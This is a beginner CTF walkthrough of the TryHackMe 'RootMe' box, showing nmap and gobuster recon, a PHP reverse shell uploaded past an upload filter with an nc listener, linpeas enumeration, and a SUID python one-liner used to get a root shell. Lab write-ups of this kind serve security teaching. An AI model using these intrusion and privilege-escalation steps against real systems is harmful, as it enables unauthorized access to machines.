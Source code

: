<p align="center"><img src="./Cover.png" width="310" ></p>
<h1><p align="center">Simple CTF : </p></h1> <h2><p align="center"> A ctf for beginners, can you root me?</p></h2>
                                                                                                                

### Room Link: [RootMe](https://tryhackme.com/room/rrootme) 

## Recon...
So I began with nmap scan to Find entry points.
```bash 
$ sudo nmap -T4 -sC -sS -A 10.10.210.59 > nmap.out
$ cat nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2021-03-22 11:00 GMT
Nmap scan report for ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)
Host is up (0.00038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:31:87:E1:4C:F5 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.11 seconds
```

As I can see there is a http server running on target. Lets checkout and let dirbuster run in background.
```bash
$ sudo gobuster dir -u http://10.10.231.92/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o dir.out
$ cat dir.out 

http://10.10.231.92/uploads (Status: 301)
http://10.10.231.92/css (Status: 301)
http://10.10.231.92/js (Status: 301)
http://10.10.231.92/panel (Status: 301)
http://10.10.231.92/server-status (Status: 403)

```

## Foot Hold...

Now there are 2 directories that I found intresting and one had a upload form. So I tried to upload php reverse shell script and bypassed with burp. 
While ```nc``` Listening in background.
```bash
$ sudo nc -lvnp 8080 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$whoami
www-data 
```
We have a reverse shell, stabalize it with this one liner ``` python3 -c 'import pty;pty.spawn("/bin/bash")'```.

Now find user.txt flag.
```bash
www-data@rootme:/$ find / -name user.txt -type f 2>/dev/null

/var/www/user.txt

www-data@rootme:/$ cat /var/www/user.txt

THM{****************}
```

## Privlege Escalation...

Lets enumerate the user. I used [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
for it.
```bash 
www-data@rootme:/var/tmp$ ./linpeas.sh
./linpeas.sh
 Starting linpeas. Caching Writable Folders...

                     ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄▄
      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄
  ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄
  ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
  ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
  ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
  ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
  ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
  ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
  ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
  ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
  ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
  ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
  ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
   ▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄
        ▄▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄ 
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
    linpeas v3.0.2 by carlospolop
                                                                                                                             
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.                                                                                               
                                                                                                                             
...
[+] SUID - Check easy privesc, exploits and write perms                                                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                
strings Not Found                                                                                                            
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping6                                              
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping
-rwsr-sr-x 1 root   root            3.5M Aug  4  2020 /usr/bin/python
```
So there is a SUID set for python as root, lets exploit it.Check [GTFOBins](https://gtfobins.github.io/gtfobins/python/).

```bash
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@rootme:/# whoami
root
root@rootme:/# cat /root/root.txt

THM{*******************}
```

Now root flag can be obatined but I wannted to own the root on **RootMe** so I changed the password and rooted the box.
